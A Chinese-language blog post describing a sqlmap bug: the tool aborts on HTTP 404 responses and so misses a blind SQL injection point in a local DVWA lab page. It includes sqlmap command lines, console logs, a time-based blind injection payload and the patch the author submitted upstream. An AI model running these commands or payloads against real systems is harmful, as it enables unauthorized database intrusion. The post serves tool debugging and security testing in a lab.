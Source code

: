 ```yaml
---
layout:     post
title:      sqlmap对状态码404处理的bug
date:       2017-08-20
summary:    sqlmap对状态码404处理的bug
categories: web
tags:
 - sqlmap
 - python
---
```


### About

sqlmap对页面遇到404响应码后直接抛出一个异常并退出sqlmap不再进行后续的paylaod测试,在用sqlmap测试sql注入点的时候,一
般用到`--batch`参数来节省时间,这种情况下sqlmap有一处对http状态码404的处理不当导致无法测出注入点的bug

### Detail

在爬虫时get请求的url可轻易爬到,但是post请求的url及post的数据的取得需要探测html中有没有表单相关的关键字,并通过表单
来构造post参数的值并提交来获取后续返回内容,如下例中详情:

安装dvwa设置level=low,测试`SQL Injection(Blind)`这一项时,参数是通过表单来提交的,点击`submit`提交后会将输入框`User
ID`中的内容以get请求发送到服务器,例如在文本框中输入1则浏览器将对应访问`http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#`

<img src="https://raw.githubusercontent.com/3xp10it/pic/master/sqlmap404bug-1.png">

尝试用sqlmap跑出这个注入点,语句如下:

    sqlmap -u "http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie='PHPSESSID=glgav33fgc0l1hoikg5f267j51;security=low'

这样是可以跑出来的,但是要提高效率用工具自动发现这个漏洞时,一般这样用sqlmap:

    sqlmap -u "http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/" --forms --batch -v 3 --cookie='...'

由于这里的id参数的值通过爬虫无法获得,因为这个id参数的值是通过表单提交的,爬虫最多可得到的url为:
    
    http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/?id=&Submit=Submit#

上图中的`Submit`按钮对应的应该是js处理的动作,js将表单通过get请求发送到服务器,这种情况下,需要用selenium+phantomjs
来获得上面的url(或者使用sqlmap中的`--forms`参数来捕获这样的表单),而就算得到了url,由于这个url中的`id=`,也即id值为空,
这种情况下,sqlmap的`--batch`参数的处理是随机赋值给id并测试各种payload(eg,id=1389),然而dvwa中的这个页面在服务器上的
处理并不一般,如果用户提交的id参数在服务器上没有查询到,服务器会响应404状态码(可能一般waf也会这样做),而sqlmap遇到
404状态码,直接就抛出异常并退出了,这样导致无法用sqlmap的`--batch`参数测出这个sql注入点

其实如果用selenium+phantomjs得到了url`http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/?id=&Submit=Submit#`后
如果服务器正常响应查询(这里的dvwa不正常响应,对查不到的统一返回404状态码),用sqlmap是可以检测到这种不带具体值的参数
类型url的注入点的,但是要设置`--risk=3`,默认的sqlmap的risk值为1,为1时sqlmap不会测试`' or [sqli] and '1'='1`(要测出
不带参数值的参数的注入点则要通过`or`来测试),也即要发挥sqlmap的功能最好设置`--batch --risk=3 --forms`.试试直接用这种
方法测试上面的注入点(在dvwa中对应的页面为`http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/`):

```
/tmp/sqlmap [master] » python2 sqlmap.py -u "192.168.8.190/dvwa/vulnerabilities/sqli_blind/" --forms -v 3 --cookie='PHPSESSID=glgav33fgc0l1hoikg5f267j51;security=low' --risk 3 --batch
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.1.8.6#dev}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 14:40:30

[14:40:30] [DEBUG] cleaning up configuration parameters
[14:40:30] [DEBUG] setting the HTTP timeout
[14:40:30] [DEBUG] setting the HTTP Cookie header
[14:40:30] [DEBUG] creating HTTP requests opener object
[14:40:30] [DEBUG] resolving hostname '192.168.8.190'
[14:40:30] [INFO] testing connection to the target URL
[14:40:30] [DEBUG] declared web page charset 'utf-8'
[14:40:30] [INFO] searching for forms
[14:40:30] [DEBUG] initializing the knowledge base
[#1] form:
GET http://192.168.8.190:80/dvwa/vulnerabilities/sqli_blind/?id=&Submit=Submit
Cookie: PHPSESSID=glgav33fgc0l1hoikg5f267j51;security=low
do you want to test this form? [Y/n/q]
> Y
[14:40:30] [DEBUG] used the default behaviour, running in batch mode
Edit GET data [default: id=&Submit=Submit]: id=&Submit=Submit
[14:40:30] [DEBUG] used the default behaviour, running in batch mode
do you want to fill blank fields with random values? [Y/n] Y
[14:40:30] [DEBUG] used the default behaviour, running in batch mode
[14:40:30] [INFO] resuming back-end DBMS 'mysql'
[14:40:30] [INFO] using '/var/root/.sqlmap/output/results-08202017_0240pm.csv' as the CSV results file in multiple targets mode
[14:40:30] [DEBUG] resolving hostname '192.168.8.190'
[14:40:30] [DEBUG] declared web page charset 'utf-8'
[14:40:30] [CRITICAL] page not found (404)
[14:40:30] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 1 times
[14:40:30] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/var/root/.sqlmap/output/results-08202017_0240pm.csv'

[*] shutting down at 14:40:30
```

发现sqlmap跑不出来,尝试修改sqlmap代码,结果中有关键字`page not found (404)`,于是定位相关代码:

    cd /tmp/sqlmap && grep -r "page not found" .

结果如下:

```
./lib/request/connect.py:                    errMsg = "page not found (%d)" % code
./lib/request/connect.py:                    debugMsg = "page not found (%d)" % code
./lib/utils/crawler.py:                    if "page not found" in getSafeExString(ex):
```

于是修改./lib/request/connect.py中代码:

```
elif ex.code == httplib.NOT_FOUND:
    if raise404:
        errMsg = "page not found (%d)" % code
        raise SqlmapConnectionException(errMsg)
    else:
        debugMsg = "page not found (%d)" % code
        singleTimeLogMessage(debugMsg, logging.DEBUG)
```

将其中的raise SqlmapConnectionException(errMsg)注释掉后再重新用刚才的sqlmap语句测试可测出这个注入点,详情如下:

```
/tmp/sqlmap [master●] » python2 sqlmap.py -u "192.168.8.190/dvwa/vulnerabilities/sqli_blind/" --forms -v 3 --cookie='PHPSESSID=glgav33fgc0l1hoikg5f267j51;security=low' --risk 3 --batch
[14:48:41] [DEBUG] checking for filtered characters
[14:48:41] [PAYLOAD] OOFt' OR 6597=IF((3988>3987),SLEEP(5),6597) AND 'sIjt'='sIjt
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
[14:49:06] [DEBUG] used the default behaviour, running in batch mode
sqlmap identified the following injection point(s) with a total of 146 HTTP(s) requests:
    ---
Parameter: id (GET)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: id=OOFt' OR SLEEP(5) AND 'CaKs'='CaKs&Submit=Submit
    Vector: OR [RANDNUM]=IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])
    ---
do you want to exploit this SQL injection? [Y/n] Y
[14:49:06] [DEBUG] used the default behaviour, running in batch mode
[14:49:06] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12
[14:49:06] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 131 times
[14:49:06] [INFO] you can find results of scanning in multiple targets mode inside the CSV file
'/var/root/.sqlmap/output/results-08202017_0246pm.csv'

[*] shutting down at 14:49:06
```

已提交pull request到sqlmap,相关代码文件为`lib/request/connect.py`,<a href="https://github.com/sqlmapproject/sqlmap/pull/2663">follow</a>

